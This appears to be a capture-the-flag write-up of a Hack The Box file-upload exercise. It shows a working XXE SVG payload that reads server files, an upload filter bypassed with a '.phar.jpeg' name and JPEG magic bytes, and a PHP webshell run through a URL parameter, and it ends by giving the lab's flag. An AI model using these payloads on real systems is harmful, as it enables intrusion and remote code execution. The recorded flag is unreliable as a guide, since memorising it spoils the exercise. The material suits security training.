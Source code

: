 You are contracted to perform a penetration test for a company's e-commerce web application. The web application is in its early stages, so you will only be testing any file upload forms you can find.

Try to utilize what you learned in this module to understand how the upload form works and how to bypass various validations in place (if any) to gain remote code execution on the back-end server.

---

## Extra Exercise

Try to note down the main security issues found with the web application and the necessary security measures to mitigate these issues and prevent further exploitation.


![](images/Pasted%20image%2020250206180714.png)

Let's take a look at the site:

![](images/Pasted%20image%2020250206180859.png)

We got some sections that are interesting, the one I'm interested in the most is the contact us one, let's check it out:

![](images/Pasted%20image%2020250206181239.png)

And there we are, we have an upload feature, let's use burp and check the request:

![](images/Pasted%20image%2020250206182157.png)

We can `Do Intercept -> Response to this request`:

![](images/Pasted%20image%2020250206182227.png)

We need to erase the `CheckFile()` and change the `accept=`:

![](images/Pasted%20image%2020250206182356.png)

Now we are able to upload any kind of file, without the need of it being an image file, let's test the next thing:

## SVG XML Upload
---


We can now test if its possible to enumerate resources in the back-end server using `.svg` files, let's upload a file with the following contents:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname"> ]>
<svg>&xxe;</svg>
```

![](images/Pasted%20image%2020250206183458.png)

If we decode the contents of it:

![](images/Pasted%20image%2020250206183516.png)

It works, we are able to upload a malicious svg file, let's read the contents of `/upload.php`:


```php
<?php
require_once('./common-functions.php');

// uploaded files directory
$target_dir = "./user_feedback_submissions/";

// rename before storing
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;

// get content headers
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// blacklist test
if (preg_match('/.+\.ph(p|ps|tml)/', $fileName)) {
    echo "Extension not allowed";
    die();
}

// whitelist test
if (!preg_match('/^.+\.[a-z]{2,3}g$/', $fileName)) {
    echo "Only images are allowed";
    die();
}

// type test
foreach (array($contentType, $MIMEtype) as $type) {
    if (!preg_match('/image\/[a-z]{2,3}g/', $type)) {
        echo "Only images are allowed";
        die();
    }
}

// size test
if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
    displayHTMLImage($target_file);
} else {
    echo "File failed to upload";
}

```

Now we are able to see the whitelist and the blacklist of the upload endpoint, we can analyze the code and figure out the way to upload our webshell:

```ad-important
- **Blacklist Check**: Blocks `.php`, `.phps`, `.phtml`.
    
- **Whitelist Regex**: Requires the filename to end with `.[2-3 letters]g` (e.g., `.jpg`, `.svg`).
- **MIME/Content-Type Check**: Must be `image/[a-z]{2,3}g` (e.g., `image/svg+xml`).
- Uploads directory
- Format of the file, it goes by date of upload.
```

Let's send an intruder attack in the following way:

![](images/Pasted%20image%2020250206184336.png)

We were able to identify a valid extension: `.phar.jpeg`. Let's proceed.



With this on mind, we can do the following:

```ad-hint
1. Create a php webshell with the right mime-type to bypass the filters.
2. Create a file called `shell.phar.jpeg`.
3. Change the mime type of the file using hexeditor.
```


Let's do it, these are the contents of `shell.phar.jpeg`:

```
AAAA
<?php echo system($_GET["cmd"]);?>
```

Now, we need to change the `AAAA` contents using hexeditor:

![](images/Pasted%20image%2020250206185029.png)

Let's replace them for the JPEG bytes: `FF D8 FF DB`

![](images/Pasted%20image%2020250206185110.png)

Nice, now let's try uploading the file:

![](images/Pasted%20image%2020250206185201.png)

It worked, let's check if the webshell works, in my case, the url would go like this:

```
http://94.237.54.42:58431/contact/user_feedback_submissions/250206_shell.phar.jpeg?cmd=id
```

If we check:

![](images/Pasted%20image%2020250206185927.png)

We got it, let's send it to burp to be more comfortable, let's list the contents:

```
bin
boot
dev
etc
flag_2b8f1d2da162d8c44b3696a1dd8a91c9.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
var
```

We got our flag, let's read it:

![](images/Pasted%20image%2020250206190133.png)

Flag is:

```
HTB{m4573r1ng_upl04d_3xpl0174710n}
```


![](images/Pasted%20image%2020250206190210.png)

